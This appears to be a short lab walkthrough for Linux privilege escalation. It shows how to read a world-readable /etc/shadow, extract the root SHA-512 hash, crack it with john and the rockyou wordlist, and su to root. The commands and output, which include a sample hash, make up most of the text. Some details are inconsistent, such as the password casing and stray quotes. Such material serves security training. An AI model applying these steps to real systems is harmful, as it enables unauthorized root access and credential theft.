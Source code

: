 The /etc/shadow file contains user password hashes, and by default is not readable by any user except for root.

If we are able to read the contents of the /etc/shadow file, we might be able to crack the root user’s password hash.

If we are able to modify the /etc/shadow file, we can replace the root user’s password hash with one we know.

```bash - victim
./lse.sh -i | more
```

1. Check the permissions of the / / etc /shadow file:

```bash - victim
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

-   Note that it is world readable.

2. Extract the root user’s password hash:

```bash victim
head -n 1 /etc/shadow
```

```root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::```

3. Save the password hash in a file (e.g. hash.txt):

```bash - kali
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```
```

4. Crack the password hash using john :

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

password123 (?)

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - victim
su
```

```bash - victim
Password123
```

```bash victim
id
```

uid=0(root) gid=0(root) groups=0(root)
